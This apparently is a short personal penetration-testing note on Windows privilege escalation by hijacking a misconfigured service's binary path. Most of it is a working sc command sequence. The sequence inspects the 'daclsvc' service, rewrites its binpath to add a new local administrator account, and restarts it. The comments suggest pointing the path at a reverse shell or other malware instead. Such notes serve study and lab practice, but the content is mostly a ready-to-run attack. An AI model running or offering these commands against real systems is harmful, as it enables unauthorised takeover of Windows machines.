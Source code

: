 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Binary Service Paths|Enum]]
Hijacking the path of a binary.
#### Change Service Config
```powershell
# as with the enum section, in our example case the vulnerable service is named:
# daclsvc
# this will put the current binary path of the service, under:
# BINARY_PATH_NAME
sc qc <service>
sc qc daclsvc

# From here we can change that path to a straight up cmd command, or, presumably, you can change the binary to a reverse shell or any malware we want. 
sc config <service> binpath= "<cmd or malware path>"
sc config daclsvc binpath= "net localgroup administrators killakxmi /add" 

# now restart the service, provided you have the access
# can throw an error, but if it does, the command may have still ran. 
sc start <service> 
sc start daclsvc
```